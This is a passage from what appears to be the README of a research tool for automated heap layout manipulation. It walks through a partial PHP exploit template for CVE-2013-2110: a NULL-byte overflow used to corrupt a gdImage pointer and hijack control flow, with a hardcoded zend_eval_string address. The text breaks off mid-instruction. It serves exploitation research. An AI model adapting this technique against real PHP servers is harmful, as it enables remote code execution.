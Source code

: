 If we look in the output directory we will find the original template as well as
the final 'exploit' that has been modified to achieve the desired heap layout.

```
$ ls /tmp/output/
000000000000000000000000001_solution  cve-2013-2110-hash_init.template.php
$ wc -l /tmp/output/*
  1711 /tmp/output/000000000000000000000000001_solution
    22 /tmp/output/cve-2013-2110-hash_init.template.php
  1733 total
```

### Generating an Exploit for PHP

In the templates directory, the file `cve-2013-2110-exploit.template.php`
contains a template for an exploit for PHP. For a more detailed explanation see
[this][1] blog post. The vulnerability allows us to write a single NULL byte
immediately after a buffer allocated by `quoted_printable_encode`. The
exploitation strategy is to use this overflow to correct a pointer that
resides at the start of a `gdImage` structure allocated by `imagecreate`.

The beginning of the template encodes this required layout as follows:

```php
<?php
#X-SHRIKE TEMPLATE-VERSION 2

$quote_str = str_repeat("\xf4", 123);
#X-SHRIKE HEAP-MANIP 384
#X-SHRIKE RECORD-ALLOC 0 1
$image = imagecreate(1, 2);
#X-SHRIKE HEAP-MANIP 384
#X-SHRIKE RECORD-ALLOC 0 2
quoted_printable_encode($quote_str);

#X-SHRIKE REQUIRE-DISTANCE 1 2 384

...
```

Then the rest of the exploit proceeds, under the assumption that the correct
layout has been achieved. The template can be provided to the `solve.py` script
as before. When the discovered solution is run it should result in the hijacking
of the program's control flow and `gnome-calculator` will be executed. A demo of
this process can be seen [here][3]. There's no audio but the video description
describes what is going on.

If you want to generate the exploit for yourself you will need to modify a
hardcoded address that is found on line 97 of the template. (Or if you want you
can update the exploit to leak the address ;)). It looks as follows:

```php
$zend_eval_string_addr = 0x95fd61;
```

The address of `zend_eval_string` in your binary may differ. To find it run the
following:


[1]: https://sean.heelan.io/heaplayout
[2]: https://sean.heelan.io/2019/03/05/automation-in-exploit-generation-with-exploit-templates/
[3]: https://www.youtube.com/watch?v=MOOvhckRoww